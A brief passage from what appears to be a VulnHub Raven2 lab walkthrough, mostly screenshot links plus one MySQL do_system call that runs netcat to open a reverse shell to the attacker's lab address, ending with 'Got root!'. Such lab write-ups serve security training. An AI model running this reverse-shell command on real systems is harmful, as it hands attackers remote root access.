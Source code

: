 ![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:13:17.png)

Now, get the reverse shell

```sh
select do_system('nc -nv 192.168.56.153 8855 -e /bin/bash');
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2009:14:04.png)

Got root!